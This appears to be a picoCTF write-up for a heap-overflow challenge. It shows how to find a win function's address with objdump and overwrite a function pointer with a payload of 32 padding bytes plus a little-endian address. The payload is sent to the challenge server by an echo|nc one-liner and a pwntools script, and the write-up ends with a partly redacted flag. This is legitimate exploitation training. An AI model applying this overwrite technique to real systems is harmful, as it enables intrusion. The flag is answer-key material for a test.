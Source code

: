 # Description

Can you handle function pointers? <br>
Download the binary here. <br>
Download the source here. <br>
Connect with the challenge instance here: <br>
nc mimas.picoctf.net 49262

# Solution

Start with getting the binary and source file with this command: `wget https://artifacts.picoctf.net/c_mimas/51/chall https://artifacts.picoctf.net/c_mimas/51/chall.c`

From the source file, it can be seen that getting to the win function is the goal. By running `objdump -D chall | less` and searching with `/win` the win function could be seen to have this address: `00000000004011a0`

From the previous section, it is known that 32 A's are needed to get to the edge. So this could be the start of the payload. Also now that the address has been retrieved it needs to be converted to little endian which swaps the order:

Orginial: `00 00 00 00 00 40 11 a0`

Swapped Endianness: `a0 11 40 00 00 00 00 00`

Then to convert it to hex format: `\xa0\x11\x40\x00\x00\x00\x00\x00`

If it is tried at this point to put it in manually it will not work because it needs to be sent as encoded text. One way of doing this is with the [echo command](https://linux.die.net/man/1/echo):

`echo -e -n "2\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x11\x40\x00\x00\x00\x00\x00\n3\n4\n" | nc mimas.picoctf.net 49262`

The `2` is to write to the heap and then a new line character `\n` to act as an enter. Then there is the payload of the 32 A's and the hex address in little-endian. Lastly, print out the x value to make sure it is correct (returns @ to the win function) then use `4` to print the flag.

This could also be done with a simple pwntools script:

```
from pwn import *

p = remote("mimas.picoctf.net", 49262)

p.sendline(b"2")
p.recvuntil(b"buffer:")
p.sendline(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x11\x40\x00\x00\x00\x00\x00")

p.recvuntil(b"choice:")
p.sendline(b"4")
print(p.recvall())
```

Flag: `picoCTF{and_down_the_road_we_go_dbb...}`

